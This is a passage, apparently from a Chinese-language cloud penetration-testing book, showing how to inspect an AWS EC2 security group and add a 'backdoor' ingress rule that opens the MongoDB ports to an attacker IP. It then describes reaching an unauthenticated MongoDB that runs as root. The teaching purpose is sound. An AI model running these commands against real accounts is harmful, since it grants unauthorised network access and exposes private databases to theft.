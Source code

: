 ```
"SecurityGroups": [
    {
        "GroupName": "corp",
        "GroupId": "sg-0315cp741b51fr4d0"
    }
]
```

目标实例`corp`上有一个单独的组；我们可以猜测它代表公司。现在我们有了安全组的名称和 ID，但我们想看看它已经存在哪些规则。我们可以通过运行以下 AWS CLI 命令找到此信息：

```
aws ec2 describe-security-groups --group-ids sg-0315cp741b51fr4d0 --profile Test 
```

来自该命令的响应应显示已添加到安全组的入站和出站规则。响应的`IpPermissions`键包含入站流量规则，`IpPermissionsEgress`键包含出站流量规则。我们的目标`corp`安全组的入站流量规则如下：

```
"IpPermissions": [
    {
        "FromPort": 27017,
        "IpProtocol": "tcp",
        "IpRanges": [
            {
                "CidrIp": "10.0.0.1/24"
            }
        ],
        "Ipv6Ranges": [],
        "PrefixListIds": [],
       "ToPort": 27018,
        "UserIdGroupPairs": []
    }
]
```

我们正在展示的是，允许从 IP 范围`10.0.0.1/24`到范围`27017`到`27018`的任何端口进行入站 TCP 访问。也许你能认出那些港口！这些端口通常属于 MongoDB，一种 NoSQL 数据库。问题是，对内部 IP 范围的访问被列为白名单，这意味着我们已经需要在网络中找到立足点才能访问这些端口。我们将在这里添加后门安全组规则，以便直接访问 MongoDB。

为此，我们可以使用`ec2:AuthorizeSecurityGroupIngress`API。我们会说我们自己的攻击者 IP 地址是`1.1.1.1`，并且我们已经知道要打开哪些端口进行访问，因此我们可以运行以下 AWS CLI 命令：

```
aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --protocol tcp --port  27017-27018 --cidr 1.1.1.1/32
```

如果一切正常，您将看不到此命令的任何输出，但如果出现问题，将出现错误。既然我们的后门规则已经成功应用，那么我们针对的安全组中的每个 EC2 实例现在都应该允许我们访问。请记住，可以指定`0.0.0.0/0`作为您的 IP 地址范围，它将允许访问任何 IP 地址。作为攻击者，我们永远不想这样做，因为这会打开其他攻击者可能发现和滥用的环境的大门，因此我们始终希望确保即使我们的后门访问规则也是细粒度的。

现在，我们可以尝试远程访问 MongoDB，以测试我们的后门规则是否成功，并希望能够访问以前私有的 MongoDB 服务器。下面的屏幕截图显示了我们在端口`27017`上连接到 Mongo 数据库的情况，其中服务器的一些错误配置对我们有利。从屏幕截图的概述部分可以看出，没有设置访问控制（身份验证），这意味着我们可以在不需要凭据的情况下读取和写入数据库。下一条消息显示 Mongo 进程以 root 用户身份运行，这意味着如果我们能够在 Mongo 服务器上执行任何类型的文件读取或代码执行，它将以 root 用户身份运行：

![](img/a765957b-d8e1-44fc-afe1-98fc2732d516.png)
